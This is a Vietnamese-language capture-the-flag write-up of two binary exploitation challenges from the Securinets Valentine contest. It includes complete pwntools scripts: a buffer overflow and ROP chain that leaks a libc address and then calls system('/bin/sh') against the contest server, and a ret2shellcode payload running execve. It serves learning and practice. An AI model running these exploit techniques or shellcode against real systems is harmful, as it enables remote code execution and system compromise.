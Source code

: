 # Love letter
file: [main](https://github.com/wan-hyhty/CTFs_competition/blob/main/Securinet%20Valentine/source/main)  
#### Hình ảnh ida  
![image](https://user-images.githubusercontent.com/111769169/219405773-390fbd80-cfbc-4392-ad58-fdb303480368.png)  
![image](https://user-images.githubusercontent.com/111769169/219406127-96373797-4cb8-419b-b863-2bc2e2f3643a.png)  
![image](https://user-images.githubusercontent.com/111769169/219406236-27dd9ada-2005-47be-8986-92156db55fe8.png)  
#### Chương trình hoạt động  
> Đầu tiên chương trình nhảy vào hàm loveletter, ta chú ý chỗ while sau, đại loại chương trình sẽ cho chúng ta nhập vào biến v2 
> ![image](https://user-images.githubusercontent.com/111769169/219407499-01d77b66-b3e3-4e49-867a-aa3db9ab050b.png)
___  
> Sau đó ở hàm doubt, nếu ta trả lời khác 'Y' thì chương trình sẽ cho nhập size của v2, và chỉ dưới 250 kí tự, nên ban đầu em hơi lú chỗ này  
> ![image](https://user-images.githubusercontent.com/111769169/219408728-9fa83627-0b11-45f3-8ed8-f94373b5ac4f.png)  
> Sau khi được anh Trí hint thì ta thấy nếu ta trả lời là 'Y' (không thực hiện if) thì biến v2 có thể nhập tuỳ ý, nhưng lúc chạy chương trình thì giá trị v1 là 0 nên không thể nhập cho biến v2. Vấn đề bây giờ là làm sao để OW được v1.
___  
> ta để ý địa chỉ ở các biến thì thấy ![image](https://user-images.githubusercontent.com/111769169/219410942-4fa2201f-5b30-471e-961e-d70cfe2a3a05.png) ![image](https://user-images.githubusercontent.com/111769169/219411007-af0d3399-62ee-4086-baba-85bedb823985.png)  
> thì thấy nếu ta nhập đủ 6969byte ở biến v2 hàm loveletter thì có thể OW giá trị v1 hàm doubt, offset v2 và v1 là 244  
> Tuy nhiên do không có hàm thực thi system mà chỉ có /bin/sh lúc nà em chỉ đoán là libc (do ban đầu file có canary), và sau khi được anh Quý hint thì chắc chắn là leak libc 
___ 
> do em chỉ leak được libc còn lúc đưa hàm system thì lỗi EOF =))  
> Sau khi xin được file script thì chúng ta được như sau  
___
```python
from pwn import *

exe = ELF('main_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

def GDB():
    gdb.attach(p, gdbscript='''
    b*0x00000000004013ba

    b*0x0000000000401388
    
    c
    ''')
    input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.LOCAL:
    p = process(exe.path)
else:
    p = remote('loveletter.securinets.tn', 4040)

# GDB()
##################################
### Stage 1: Leak libc address ###
##################################
sa(b'> ', cyclic(6796) + p64(0x500))
sa(b'> ', b'\n')
sa(b'> ', b'Y')

pop_rdi = 0x00000000004014b3
payload = b'A'*(264) + flat(
    pop_rdi, exe.got['puts'],
    exe.plt['puts'],
    exe.sym['main'],
    )
sa(b'now.\n', payload)
p.recvuntil(b'friend!\n')
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - libc.sym['puts']
info("Libc base: " + hex(libc.address))

##########################
### Stage 2: Get shell ###
##########################
sa(b'> ', cyclic(6796) + p64(0x500))
sa(b'> ', b'\n')
sa(b'> ', b'Y')

pop_rdi = 0x00000000004014b3
payload = b'A'*(264) + flat(
    0x000000000040101a,
    pop_rdi, next(libc.search(b'/bin/sh')),
    libc.sym['system']
    )
sa(b'now.\n', payload)

p.interactive()
```
# Phân tích script  
![image](https://user-images.githubusercontent.com/111769169/219415578-c22f2804-97ad-4b0b-9fbb-75ab0d46e296.png)  
![image](https://user-images.githubusercontent.com/111769169/219414568-52ec4c12-0944-4f7b-9124-39e526a8e5fa.png)  
> ta input đủ 6969 để OW biến v1 hàm doubt  
___
![image](https://user-images.githubusercontent.com/111769169/219416198-056c37cc-4afb-4c8b-8181-26ac29d58353.png) 
![image](https://user-images.githubusercontent.com/111769169/219416439-8f18a7a6-20c0-4bb9-8241-c6f351c09cf2.png)  
> ta nhập 264byte để OW đến địa chỉ rip (em đã tìm offset rip)   
> ![image](https://user-images.githubusercontent.com/111769169/219416972-707cd8d3-ffbb-4b35-a30b-a7fe2d76feb1.png)  
> Sau đó trong flat() thì set thanh rip = là got@put và thực thì hàm put, để leak được file libc, sau đó quay về main
___
![image](https://user-images.githubusercontent.com/111769169/219417932-fa686178-6ecd-49ca-98e9-90ba49b03023.png)
> tính base của libc
___
> ta thực hiện lại lần hai chương trình và đẩy hàm system vào  
![image](https://user-images.githubusercontent.com/111769169/219418602-1513688e-6841-4c30-bee9-fced04860c5d.png)  
> ở đây địa 0x40101a được thêm vào để khắc phục lỗi xmm1 (lúc em làm thì em hum có dòng này =)))  
> em đã thử không thêm địa chỉ này mà nhảy sâu vào hàm system nhưng vẫn không khắc phục được lỗi xmm1  
___
#### Tổng kết sai sót
Không theo dõi thông báo giải và lúc được biết có file mới thì vẫn giải trên file cũ. Kết quả là file libc khác với server  
Cần cải thiện quá trình debug.  
#### Kiến thức mới
Thay vì ta set các địa chỉ như này  
![image](https://user-images.githubusercontent.com/111769169/219421279-d0561928-8d27-4c5b-8454-32e98c1eb4d5.png)  
___
Thì hàm flat() đại loại sẽ pack() các dữ liệu mình vào thay vì p64()
![image](https://user-images.githubusercontent.com/111769169/219421953-30160aa1-251b-46ee-a5fc-f375dab9b0b7.png)

# Gift shellcode
file: [giftshellcode](https://github.com/wan-hyhty/CTFs_competition/blob/main/Securinet%20Valentine/source/giftshell)
### Hình ảnh ida  
![image](https://user-images.githubusercontent.com/111769169/219426864-8d5bdca6-6555-44e3-ad97-17b30f25d136.png)  
Cùng với checksec ra NX tắt, chắc chắn là ret2shellcode  
___
Đầu tiên ta thấy chương trình leak cho ta địa chỉ đầu tiên stack của buf, bây giờ payload sẽ là shellcode, nhập đủ 120 kí tự offset thanh rip sau đó truyền vào địa chỉ đầu stack biến buf =)))  
```python3
from pwn import *

exe = ELF('./giftshell', checksec=False)
p = process(exe.path)
input()
p.recvuntil(b'products! ')
leak = int(p.recv(14), 16)

shellcode = asm(
    '''
    mov rax, 0x3b
    mov rdi, 29400045130965551
    push rdi
    
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    
    syscall
    ''', arch='amd64'
)

payload = shellcode 
payload = payload.ljust(120)
payload += p64(leak)
p.sendafter(b'Input: \n', payload)

p.interactive()
```
